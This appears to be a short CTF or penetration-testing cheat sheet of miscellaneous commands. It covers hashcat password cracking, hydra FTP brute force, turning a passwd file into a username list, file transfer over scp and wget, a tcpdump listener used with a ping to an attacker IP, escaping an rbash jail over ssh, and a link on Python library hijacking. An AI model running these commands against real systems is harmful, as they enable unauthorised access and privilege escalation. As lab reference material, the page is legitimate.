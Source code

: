 # Miscellaneous

hashcat -a 0 -m 500 hash /root/Downloads/rockyou.txt --force

scp important.txt ubuntu@192.168.1.30:/home/ubuntu/transferred.txt

wget -m ftp://ftpuser:givemefiles777@10.10.94.48

python -m pyftpdlib 21\
\
hydra -e nsr -l elly ftp://192.168.249.148\


Turn passwd file into userlist to use in bruteforce:\
cut -d ":" -f 1 passwd > userlist\


{% embed url="https://github.com/PinkDraconian/CTF-bash-tools" %}

### TCPDUMP LISTENER

Start a tcpdump listener on your local machine.

**If using your own machine with the VPN connection, use:**

* `sudo tcpdump ip proto \\icmp -i tun0`

**If using the Ethernet, use:**

* `sudo tcpdump ip proto \\icmp -i eth0`

This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

**ping \<ATTACKER IP> -c 4**

****

If we know the  ssh credentials of the user who is part of rbash shell, then you can use the following command along ssh to break the jail and bypass the rbash by accessing proper bash shell.

`ssh seppuku@192.168.53.90 -t "bash --noprofile"`

### Python Library Hijacking

{% embed url="https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/" %}
